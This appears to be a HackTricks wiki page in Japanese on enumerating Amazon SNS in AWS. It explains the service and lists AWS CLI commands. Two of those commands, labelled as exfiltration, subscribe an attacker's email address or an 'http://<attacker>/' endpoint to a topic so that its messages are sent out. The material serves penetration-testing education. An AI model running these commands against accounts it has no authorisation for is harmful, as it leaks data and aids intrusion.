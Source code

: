 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) は、**フルマネージドメッセージングサービス**として説明されています。これは、**アプリケーション間** (A2A) および **アプリケーションから人** (A2P) への通信タイプの両方をサポートします。

A2A通信の主な機能には、**パブリッシュ/サブスクライブ (pub/sub) メカニズム**が含まれます。これらのメカニズムは、**トピック**を導入し、高スループットの**プッシュベースの多対多メッセージング**を可能にします。この機能は、分散システム、マイクロサービス、およびイベント駆動のサーバーレスアーキテクチャを含むシナリオで非常に有利です。これらのトピックを活用することで、パブリッシャーシステムは**広範なサブスクライバーシステム**に効率的にメッセージを配信し、ファンアウトメッセージングパターンを促進します。

### **SQSとの違い**

**SQS** は、ポイントツーポイント通信を可能にする**キューベースのサービス**であり、メッセージが**単一のコンシューマー**によって処理されることを保証します。これは、**少なくとも一度の配信**を提供し、標準およびFIFOキューをサポートし、再試行および遅延処理のためのメッセージ保持を可能にします。\
一方、**SNS** は、**パブリッシュ/サブスクライブベースのサービス**であり、メッセージを**複数のサブスクライバー**に同時にブロードキャストすることにより、**一対多**の通信を可能にします。これは、**メール、SMS、Lambda関数、およびHTTP/HTTPSなどのさまざまなサブスクリプションエンドポイント**をサポートし、ターゲットメッセージ配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システム内のコンポーネント間のデカップリングを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動のファンアウト通信パターンを強調します。

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**トピックがFIFOタイプの場合**、プロトコル**SQS**を使用するサブスクライバーのみが使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれていても、**`--region`**に正しいリージョンを指定しないと、アクセス権がないことを示すエラーが発生しますが、問題はリージョンにあります。
{% endhint %}

#### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 権限昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### ポストエクスプロイト

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 永続性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 参考文献

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。

</details>
{% endhint %}
